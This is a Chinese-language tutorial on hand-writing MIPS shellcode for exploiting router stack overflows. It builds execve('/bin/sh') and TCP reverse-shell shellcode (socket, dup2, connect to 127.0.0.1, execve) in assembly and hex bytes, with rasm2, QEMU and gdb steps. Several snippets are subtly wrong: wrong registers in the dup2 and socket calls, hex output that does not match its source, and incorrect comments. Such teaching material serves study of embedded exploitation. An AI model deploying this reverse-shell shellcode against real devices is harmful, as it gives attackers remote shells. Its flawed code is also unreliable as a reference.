


[TOC]

## 前言

Shellcode 是一段可以执行特定功能的特殊汇编代码，在设备漏洞利用过程中，尤其是栈溢出漏洞，我们一般都会使用调用 shellcode 的方法来进行攻击（ret2shellcode）。

MIPS 架构的 shellcode 和 x86 架构下的 shellcode 也会有一些差异，同时在实际利用 MIPS 的 shellcode 时可能会有坏字符的问题，因此还是需要掌握一些 shellcode 编写的技巧，这样在实际利用时才能比较灵活的运用。

## MIPS 系统调用

我们在写 shellcode 过程中，都会用到系统调用。和 x86 的系统调用相似，MIPS 系统调用也会用到系统调用号。

### 调用过程

使用系统调用的过程依旧是先赋值好参数($a0、$a1、$a2)，然后使用 syscall 指令触发中断，来调用相应函数：

如，这里如果需要调用 `exit(1)` 函数，可以表示成以下的汇编代码：

```
li $a0,1
li $v0,4001			// sys_exit
syscall 0x40404
```

- 与 x86 指令不同的是，这里的系统调用号是存储在 v0 寄存器中。

MIPS 的系统调用号可以在 `/usr/mips-linux-gnu/include/asm/unistd.h` 中看到，调用号是从 4000 开始：



- 关于 mips 交叉环境，可以直接使用下面的命令安装：

```
sudo apt-get install libc6-mips-cross
```

其他架构的环境安装方法类似。

## MIPS 指令汇编/反汇编

在将我们写好的 MIPS 汇编转换成 shellcode 时，可以使用 `rasm2` 工具进行转换，这个工具是 `radare` 工具的一个专门进行汇编/反汇编的工具，关于工具的安装方法见参考链接。

例如，我们可以使用命令下面的命令对 MIPS 指令集进行汇编：

```
➜  ~ rasm2 -a mips -b 32 "addiu a0,zero,1"
01000424

参数说明：
	-a：		指定架构为 MIPS
	-b：		指定程序位数
	-d：		反汇编
```

也可以进行反汇编：

```
➜  ~ rasm2 -a mips -b 32 -d "01000424"
addiu a0, zero, 1
```
- 可以指定 -f 参数来将文件内容中的代码语句读取并汇编：

```
➜  ~ cat test.asm
addiu a1,zero,2;
sw 2,-24(sp);
➜  ~ rasm2 -a mips -b 32 -f ./test.asm
02000524e8ffa2af
```

- 注意这里每一句汇编语句后面都需要加上分号。

-C 参数还可以生成 shellcode 格式，使用起来比较方便：

```
➜  ~ rasm2 -a mips -b 32 -C -f ./test.asm
"\x02\x00\x05\x24\xe8\xff\xa2\xaf"
```


### 示例：execve 函数的执行

举个例子，在 C 语言中执行 `execve` 函数来获取 shell 的代码如下：


```
#include <stdlib.h>

int main(){
	execve("/bin/sh",0,0);
	return 0;
}
```

对应的汇编代码为：


```
lui $t6,0x2f62
ori $t6,$t6,0x696e
sw $t6,28($sp)						// 将 "/bin" 存入 $sp+28 的栈空间

lui $t7,0x2f2f
ori $t7,$t7,0x7368
sw $t7,32($sp)						// 将 "//sh" 存入 $sp+28 的栈空间
sw $zero,36($sp)				  // 0 截段


la $a0,28($sp)						// a0 寄存器指向 "/bin//sh" 栈空间

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011			// execve 的系统调用号为 4011

syscall 0x40404						// 调用 execve("/bin/sh",0,0);
```

- 在第一、第二行中，lui 和 ori 指令配合使用可以赋值一个 4 字节空间，lui 指令赋值高位 2 字节，ori 指令赋值低位 2 字节。


## 反弹 shell 的 shellcode 汇编代码编写

在实际使用 shellcode 进行利用的过程中，一般是编写、使用能够反弹 shell 的 shellcode 来 getshell 而不使用直接执行 `execve` 函数的方法。针对于反弹 shell 的 shellcode 汇编代码，编写起来会更加复杂，但是系统调用的过程步骤都是不变的：

```
socket(2,1,0) -> dup2(s,0/1/2) -> connect(s,(sockaddr *)&addr,0x10) \
    -> execve("/bin/sh",["/bin/sh",0],0) -> exit(0)
```

那么这里就对几个函数调用的步骤进行分解，依次写出系统调用的汇编代码。

### socket 系统调用

这里我们使用 TCP reverse shell 的方式来反弹 shell。那么调用 `socket` 函数以 C 语言来表示的话如下：

```
socket(AF_INET,SOCK_STREAM, 0)
```

在 xxx 中，我们可以查到 `AF_INET`、`SOCK_STREAM` 常量对应的数值为 2 和 1。同样可以知道 `socket` 的系统调用号为 4183。

第一步先给三个参数（a0、a1、a2）赋值，即：

```
addiu  $a0, $zero, 2;
addiu  $a1, $zero, 1;
addiu  $a3, $zero, 0;
addiu  $v0, $zero, 0x1057;
syscall 0x40404;
sw $v0,10($sp);								// 将描述符存入栈中
```

使用 `rasm2` 进行汇编转换为 shellcode：

```
➜  mips cat conn
addiu  a0, zero, 2;
addiu  a1, zero, 1;
addiu  a3, zero, 0;
addiu  v0, zero, 0x1057;
syscall 0x40404;
sw $v0,10($sp);

➜  mips rasm2 -a mips -b 32 -C -f ./conn
"\x02\x00\x04\x24\x01\x00\x05\x24\x00\x00\x07\x24\x57\x10\x02\x24\x0c\x00\x00\x00"
```

- 在将汇编代码写进文件时，因为 `rasm2` 无法识别 $，所以需要手动去掉 $ 符号。

### dup2 系统调用

dup2 函数的作用是复制文件描述符，将 socket 描述符复制 stdin、stdout、stderr 描述符中，这里我们就能在远程与本地交互。

以 C 语言来表示的话如下：

```
dup2(socket_obj,0)
dup2(socket_obj,1)
dup2(socket_obj,2)
```

- dup2 的系统调用号为 4063。

对应的汇编表示为：

```
lw $v0,10($sp);			// sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,0
addiu $v0,zero,4063
syscall 0x40404

lw $v0,10($sp);			// sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,1
addiu $v0,zero,4063
syscall 0x40404

lw $v0,10($sp);			// sys_socket 系统调用的返回值，即 sock 对象
addiu $a1,zero,2
addiu $v0,zero,4063
syscall 0x40404
```

shellcode 表示：
```
➜  mips rasm2 -a mips -b 32 -C -f ./conn
"\x20\x20\x40\x00\x00\x00\x05\x24\xdf\x0f\x02\x24\x0c\x00\x00\x00\x20\x20\x40\x00" \
"\x01\x00\x05\x24\xdf\x0f\x02\x24\x0c\x00\x00\x00\x20\x20\x40\x00\x02\x00\x05\x24" \
"\xdf\x0f\x02\x24\x0c\x00\x00\x00"
```

经常在这里，我们会加上一个循环，使得最终生成的 shellcode 会短一些，如：

```
lw $v0,10($sp)
addiu $a1,$zero,2
loop:
addiu $v0,$zero,4063
syscall 0x40404
addiu $t5,$zero,-1
addi $a1,$a1,-1
bne $a1,$t5,loop
```

### connect 系统调用

`connect` 函数的作用是通过 socket 连接到指定的 ip 地址监听的端口。函数原型为：

```
int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

第一个参数为 socket 函数返回的 sock 对象，第二个参数为指定服务端 ip 和端口的结构体，第三个参数为结构体的大小。

示例的 C 语言源代码：

```
struct sockaddr_in server;
servser.sin_family=AF_INET;
server.sin_port=htons(6666);
server.sin_addr.s_addr=inet_addr("127.0.0.1");

connect(sock,(struct sockaddr *)&server,sizeof(server));
```

这里重点是 `connect` 函数的第二个参数，这个参数为 `sockaddr` 结构体，这个结构体的原型如下：

```
struct sockaddr {  
		sa_family_t sin_family;		//地址族，2 个字节
		char sa_data[14];				 //14字节，包含套接字中的目标地址和端口信息
}; 
```

但是一般在这里，我们会先使用 `sockaddr_in` 结构体，将 ip 和端口进行赋值，再将其强制类型转换为 `sockaddr`。因为 `sockaddr` 结构体的 IP 地址和端口段都包含在了 `sa_data` 段，不太容易直接赋值。

`sockaddr` 结构体的原型如下：


- 整个结构体大小固定为 16 字节。

根据这个结构体的格式，我们将示例代码编译成可执行程序，在 gdb 中调试到相应位置，查看相关的的内存表示。查看 `sockaddr_in` 结构体的内存值：

```
pwndbg> x/2xw 0x76fff5ca
0x76fff5ca:	0x00027a69	0x7f000001
```
- `0x0002`：表示 TCP 协议族，大小为 2 字节。
- `0x7a69`：表示端口号，大小为 2 字节。
- `0x7f000001`：表示 IP 地址，大小为 2 字节，在这里表示的 IP 为 127.0.0.1。 


相应的汇编代码如下：

```
lw $v0,10($sp)
move $a0,$v0
addiu,$a2,$zero,0x10
lui $t6,0x2								// 协议族为 2
ori $t6,$t6,0x7a69					// 端口号为 0x7a69
sw $t6,20($sp)						 // 将 0x00027a69 存入栈中
lui $t7,0x7f00
ori $t7,$t7,0x1
sw $t7,24($sp)						 // 将 0x7f000001 存入栈中，与 0x00027a69 相邻
la $a1,20($sp)						 // 栈地址赋值给 a1 寄存器

addiu $v0,$zero,4170			// sys_connect
syscall 0x40404
```

在调试中类似这种情况就是对的：




### execve 系统调用

这里的 `execve` 的系统调用同样是执行 `execve("/bin/sh",0,0);` 函数，写法参考上文，再次不在赘述。

## 调试方法

在编写 shellcode 的过程中，可以对每一部分的汇编代码进行调试，调试方法如下。

1 . 将汇编语句加上 main 符号：

```
.global main

main:
        li $a0,2
        li $a1,1
        li $a3,0
        li $v0,4183
        syscall 0x40404
```
2 . 汇编、链接

```
mips-linux-gnu-as --32 socket.S -o socket.o	
mips-linux-gnu-ld -e main socket.o -o socket
```
3 . qemu 调试

在一个终端执行命令：

```
qemu-mips-static -g 1234 -L /usr/mips-linux-gnu ./socket
```

另外一个终端：

```
gdb-multiarch ./socket
```

就可以在 gdb 中进行正常的调试。

## 总结

将上述三段汇编语句连起来就可以得到最终的 reverse shell 的汇编语句，同样的使用 `rasm2` 将其汇编成 shellcode 格式即可。

对于最终得到的 `shellcode`，我们经常会进行指令的优化，也就是将一些指令进行替换或者将 shellcode 进行编码，从而避免一些坏字符。优化过程读者可以自行研究，也可以查阅《揭秘家用路由 0day 漏洞挖掘技术》一书的第七章。

## 参考链接

1. [radare2 官网](https://www.radare.org/n/ "radare2 官网")
2. [shell-storm](http://shell-storm.org/shellcode/ "shell-storm")